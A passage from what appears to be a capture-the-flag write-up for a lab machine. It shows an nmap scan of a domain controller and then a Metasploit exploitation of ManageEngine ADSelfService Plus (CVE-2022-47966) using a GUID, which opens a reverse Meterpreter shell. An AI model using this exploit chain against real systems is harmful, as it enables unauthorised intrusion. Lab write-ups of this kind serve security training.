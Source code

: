 Just to be sure let's scan some ports

```bash
proxychains -q nmap -v -Pn -sV -sC -p- 172.16.22.1
```

```bash
Discovered open port 80/tcp on 172.16.22.1
Discovered open port 135/tcp on 172.16.22.1
Discovered open port 53/tcp on 172.16.22.1
Discovered open port 139/tcp on 172.16.22.1
Discovered open port 8888/tcp on 172.16.22.1
Discovered open port 443/tcp on 172.16.22.1
Discovered open port 445/tcp on 172.16.22.1
```

Visiting https://dc.cerberus.local:8888 will redirect to https://dc.cerberus.local:9251/ which is the Login Page for ManageEngine ADSerlService Plus.

### GUID

If I login as **matthew** I get redirected but have no rights to access to application. Nevertheless it provides me the GUID which is needed.

```bash
# GUID
67a8d101690402dc6a6744b8fc8a7ca1acf88b2f
```

### Issuer URL

This one is up to you ;) Was alot of work to find the issuer url.  But as a hint **adfs**

### Metasploit

Now I do have everthing I need to exploit the vulnerability

```bash
proxychains -q msfconsole

# Set the exploit
use exploit/multi/http/manageengine_adselfservice_plus_saml_rce_cve_2022_47966

# Configure
set GUID 67a8d101690402dc6a6744b8fc8a7ca1acf88b2f
set ISSUER_URL http://dc.cerberus.local/adfs/CENSORED
set RHOSTS 172.16.22.1
set LHOST tun0

# Run it
exploit

[*] Started reverse TCP handler on 10.10.14.70:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[*] Sending stage (175686 bytes) to 10.129.190.97
[*] Meterpreter session 1 opened (10.10.14.70:4444 -> 10.129.190.97:61330) at 2023-03-21 20:40:43 +0100
```
